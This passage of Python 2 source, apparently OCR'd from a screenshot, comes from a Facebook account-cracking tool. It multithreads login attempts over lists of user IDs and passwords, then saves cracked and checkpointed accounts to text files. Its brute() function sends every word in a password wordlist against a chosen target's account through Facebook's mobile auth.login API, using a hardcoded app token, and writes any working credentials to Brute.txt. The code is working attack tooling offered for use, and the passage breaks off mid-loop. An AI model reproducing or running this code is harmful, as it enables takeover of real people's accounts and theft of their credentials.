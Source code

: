 																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'
	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')
            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email
            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'
            jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')